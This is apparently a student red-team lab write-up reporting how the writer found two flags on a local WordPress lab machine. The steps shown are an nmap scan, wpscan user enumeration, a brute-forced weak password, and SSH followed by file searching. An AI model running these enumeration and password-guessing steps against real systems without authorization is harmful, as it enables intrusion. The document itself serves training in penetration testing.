 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```
![NMAP scan](https://github.com/guerriericp/Final_Project/blob/main/Images/nmap_scan_final_project.png "NMAP scan")

This scan identifies the services below as potential points of entry:
- Target 1
 1. Port 22/TCP 	    Open 	SSH
 2. Port 80/TCP 	    Open 	HTTP
 3. Port 111/TCP 	Open 	rcpbind
 4. Port 139/TCP 	Open 	netbios-ssn
 5. Port 445/TCP 	Open 	netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
 1. User Enumeration
 2. Weak user password
 3. Misconfiguration of User Priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users of the targeted WordPress site
      - `$ wpscan --url http://192.168.1.110 --enumerate u`
    - User 'Michael' is our target
      - Using a brute force attack we are able to guess Michael's very simple password
      - The users password: michael
    - Finding 'Flag 1'
      - `ssh michael@192.168.1.110`
      - `pwd: michael`
      - `cd ../../`
      - `cd var/www/html`
      - `ls -l`
      - `grep -i 'flag1' service.html`
     
![flag1](https://github.com/guerriericp/Final_Project/blob/main/Images/flag_1redteam.png "Flag 1")
 
 - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - same exploit used on flag 1. While still SSH in user 'Michael' looking through other directories I was able to find flag 2.
    - Commands:
      - `ssh michael@192.168.1.110`
      - `pwd: michael`
      - `cd ../../`
      - `cd var/www`
      - `ls -l`
      - `cat flag2.txt`
![flag 2](https://github.com/guerriericp/Final_Project/blob/main/Images/flag_2redteam.png "Flag 2")

